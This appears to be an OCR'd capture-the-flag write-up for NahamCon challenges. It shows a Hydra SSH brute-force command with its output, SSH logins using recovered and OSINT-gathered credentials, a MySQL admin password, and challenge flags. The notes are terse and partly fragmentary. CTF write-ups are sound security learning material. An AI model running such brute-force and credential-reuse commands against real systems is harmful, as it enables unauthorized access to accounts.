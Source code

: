 ## HYDRAULIC
- USING CREDENTIAL LISTS OBTAINED FROM 'LYRA'
- USE HYDRA TO BURTE MULTIPLE CREDENTIALS
```
hydra -L userlist.lst -P passlist.lst 35.239.227.150 -s PORT -t 4 ssh
[30614][ssh] host: 35.239.227.150   login: pavo   password: starsinthesky
```
SSH WITH NEW CREDENTIALS
```
ssh pavo@challenge.nahamcon.com -p PORT
cat flag.txt
flag{cadbbfd75d2547700221f8c2588e026e}
```

## ORION
TWITTER - https://twitter.com/OrionMorra
- CREDS ON TWITTER
  - USER - orion
  - PASS - stars4love4life
```
flag{0bcffb17cbcbf4359a42ec45d0ccaf2}
```

## INTERNAL
WITH ORIONS CREDS, RUN:
```
sh create_mysql_admin_user.sh
========================================================================
You can now connect to this MySQL Server using:

    mysql -uadmin -pH1SZbWwoG5To -h<host> -P<port>

Please remember to change the above password as soon as possible!
MySQL user 'root' has no password but only allows local connections
========================================================================
```
SOMEWHAT WORKING COMMAND:
```
mysql -u admin -p H1SZbWwoG5To -h internal-4ca98cd867aed7b8-b779764cc-h4lsm -P 30444
```

## DEGRADE
CREDS:
  - USER: hercules
  - PASS: starstruckherc
SSH:
```bash
ssh hercules@challenge.nahamcon.com -p PORT
hercules@degrade-d4ab4804dfe6d613-686866b977-9vxpl:/home/pamela$ cat reminder.txt
hercules@degrade-d4ab4804dfe6d613-686866b977-9vxpl:/home/pamela$ ion and I need to fix it... golly I wish they would call me b
```
